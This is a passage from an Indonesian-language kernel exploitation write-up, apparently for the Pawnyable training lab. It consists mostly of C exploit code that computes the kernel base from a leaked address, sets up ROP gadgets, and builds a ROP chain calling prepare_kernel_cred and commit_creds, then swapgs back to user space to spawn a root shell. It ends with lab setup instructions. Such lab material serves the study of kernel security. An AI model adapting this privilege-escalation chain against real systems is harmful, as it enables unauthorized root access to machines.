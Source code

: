 ```c
    kbase = vfs_read - (0xffffffff8113d33c - 0xffffffff81000000);
    pop_rdi = kbase + 0x27bbdc;
    pop_rcx = kbase + 0x32cdd3;
    mov_rdi_rax_rep_movsq = kbase + 0x60c96b;
    swapgs = kbase + 0x800e26;
    commit_creds = kbase + 0x6e390;
    prepare_kernel_cred = kbase + 0x6e240;

    printf("kbase : 0x%016lx\n" ,kbase);
    printf("vfs_read: 0x%016lx\n" ,vfs_read);
    printf("commit_creds: 0x%016lx\n" ,commit_creds);
    printf("prepare_kernel_cred: 0x%016lx\n" ,prepare_kernel_cred);
    printf("swapgs: 0x%016lx\n" ,swapgs);
    printf("pop_rdi: 0x%016lx\n" ,pop_rdi);
    printf("pop_rcx: 0x%016lx\n" ,pop_rcx);
    printf("mov_rdi_rax_rep_movsq: 0x%016lx\n" ,mov_rdi_rax_rep_movsq);
    
}

void rop()
{
    puts("[+]tahap kedua, rop");
    char buff[0x500];
    memset(buff,'B',0x480);

    unsigned long *rop = (unsigned long*)(buff + 0x408);
    *rop++ = pop_rdi;
    *rop++ = 0;
    *rop++ = prepare_kernel_cred;
    *rop++ = pop_rcx;
    *rop++ = 0;
    *rop++ = mov_rdi_rax_rep_movsq;
    *rop++ = commit_creds;
    *rop++ = swapgs;
    *rop++ = 0xdeadbeef;
    *rop++ = 0xdeadbeef;
    *rop++ = (unsigned long)shell; //[rdi+0x10]
    *rop++ = user_cs; //[rdi+0x18 ]
    *rop++ = user_rflags; //[rdi+0x20]
    *rop++ = user_rsp;  //[rdi+0x28]
    *rop++ = user_ss; //[rdi+0x30]
    
    write(global_fd,buff,(void*)rop-(void*)buff);
}


int main()
{
    save_state();

    leak();
    
    rop();

    close(global_fd);

    return EXIT_SUCCESS;
}


```
sebelum menjalankan exploitnya, kita harus kembali mengubah setidguid ke 1337 di rootfs/etc/init.d/S99pawnyable, aktifkan semua mitigasi pada run.sh